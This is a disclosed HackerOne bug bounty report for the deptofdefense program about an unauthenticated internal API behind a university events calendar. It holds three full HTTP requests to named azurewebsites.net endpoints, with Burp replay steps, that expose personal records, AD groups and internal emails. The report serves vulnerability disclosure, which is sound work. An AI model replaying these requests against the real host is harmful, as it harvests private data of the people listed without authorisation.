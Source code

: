 # Unauthenticated access to internal API at██████████.███.edu  [HtUS]

## Report Details
- **Report ID**: 1627980
- **URL**: https://hackerone.com/reports/1627980
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-07-06T14:02:28.184Z
- **Disclosed**: 2024-07-19T14:35:22.725Z

## Reporter
- **Username**: matrixsoftsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
#Overview:

* There are multiple API calls using which an attacker user is able to gain unauthenticated access to internal API████████.██████.edu via Azure API url appg3entcalapi.azurewebsites.net.  

* The access to█████.██████.edu is via microsoft and only allows internal users to access it.

* The appg3entcalapi.azurewebsites.net is listed as the API under the javascript located at [https://eventscalendar.████.edu/app.js](https://eventscalendar.██████.edu/app.js)

██████

#Steps to reproduce:

#(I) Vulnerable Request: Disclose PII of internal users-

```
GET /api/person/Default.GetAllPersons HTTP/1.1
Host: appg3entcalapi.azurewebsites.net
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2

{}
```

* Copy the above vulnerable request to your BURP repeater tab and fire the request.

* Notice the 200 OK response disclosing the details.

██████████

#(II) Vulnerable Request: Disclose adgroups & internal emails-

```
GET /api/AdGroup HTTP/1.1
Host: appg3entcalapi.azurewebsites.net
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 2

{}
```

* Copy the above vulnerable request to your BURP repeater tab and fire the request.

* Notice the 200 OK response disclosing the details.

█████

#(III) Vulnerable Request:

```
GET /api/EventType HTTP/1.1
Host: appg3entcalapi.azurewebsites.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2

{}
```

* Copy the above vulnerable request to your BURP repeater tab and fire the request.

* Notice the 200 OK response disclosing the details.

███████

## Impact

Unauthenticated access to internal API at████.████████.edu

## Attachments
No attachments
